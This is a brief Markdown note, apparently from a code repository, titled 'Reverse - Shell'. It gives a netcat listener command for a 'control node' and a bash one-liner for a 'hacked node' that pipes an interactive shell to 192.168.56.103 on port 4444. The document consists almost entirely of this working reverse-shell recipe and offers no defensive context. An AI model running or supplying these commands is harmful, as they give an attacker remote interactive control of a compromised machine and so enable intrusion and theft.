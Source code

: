 # Reverse - Shell 

## Control-Node main.example.com

```
# here we will issue the commands
nc -l 4444
```

## Hacked node secondary.example.com

```
bash -i >& /dev/tcp/192.168.56.103/4444 0>&1
```
